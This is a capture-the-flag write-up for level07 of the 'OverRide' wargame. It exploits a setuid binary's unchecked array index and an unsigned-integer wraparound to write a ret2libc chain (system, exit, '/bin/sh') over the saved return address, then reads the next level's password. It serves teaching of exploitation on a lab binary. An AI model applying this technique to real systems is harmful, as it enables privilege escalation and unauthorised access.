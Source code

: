 Level07 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07
```

Level07 rights:
```Shell
-rwsr-s---+ 1 level08 users   11744 Sep 10  2016 level07
```

Testing the binary:
```Shell
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store 
 Number: 111
 Index: 1
 Completed store command successfully
Input command: read
 Index: 1
 Number at data[1] is 111
 Completed read command successfully
 Input command: store
 Number: -1
 Index: 2
 Completed store command successfully
Input command: read
 Index: 2
 Number at data[2] is 4294967295
```
The program allow us to store unsigned number in an array and read them.

Decompiling with Hex-Rays on https://dogbolt.org/ show us that:
- the array is 400 bytes long, but is casted in DWORD when used and the index asked to the user is multiplied by 4, so we can conclude that it is used an unsigned int array of 100 elements
- the index provided by the user is use without checking if it is bigger than the size of the array.
- the program has reserved all index that are multiple of 3 and refused to store number whose the high bytes are equal to 183.

We can't do a format string attack nor a buffer overflow, so our only way to exploit the binary is to use the `store` command to store value on the stack. The index vulnerability allow us to store value outside the array, in a similar way to a buffer overflow.

We will first retrieve `system()`, `exit()` and `/bin/sh` address using GDB:
```Shell
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system, +9999999, "/bin/sh"
0xf7f897ec
```

The array store unsigned int value so if we want to store this address we need to convert them in decimal:
```
system: 0xf7e6aed0 -> 4159090384
exit: 0xf7e5eb70 -> 4159040368
/bin/sh: 0xf7f897ec -> 4160264172
```

To know wich index to use to 'overflow' our array we need to find the offset beetween `EIP` and the begining of our array:
```Shell
Guessed arguments:
arg[0]: 0xffffcdf4 --> 0x0 
[...]
gdb-peda$ i f
[...]
 Saved registers:
[...]
  eip at 0xffffcfbc
```

We can see the address of the first element in the array (0xffffcdf4) and the address of eip (0xffffcfbc), a substraction give us an offset of 456 bytes (0xffffcfbc - 0xffffcdf4).
This is an array of int so each element has a size of 4 bytes, so the offset in term of index is 114 (456 / 4).

Let's try to change EIP by '0xaaaaaaaa' (2863311530 in decimal):
```Shell
Input command: store
 Number: 2863311530
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
 ```
We can't use the 114th index because it's a multiple of 3, but since the index is stored in an unsigned int, overflowing it should allow us to store the value at index 114. The provided index is multiplied by 4, so using `MAX_UINT_32 / 4` and adding 114 (1073741938) is equivalent to using 114 as index.
```Shell
Input command: store
 Number: 2863311530
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 2863311530
 Completed read command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0xaaaaaaaa in ?? ()
```

So storing `system()`, `exit()` and `/bin/sh` address at the index 114, 115, 116 should open a terminal.

```Shell
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level07/.pass
cat: /home/users/level07/.pass: Permission denied
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```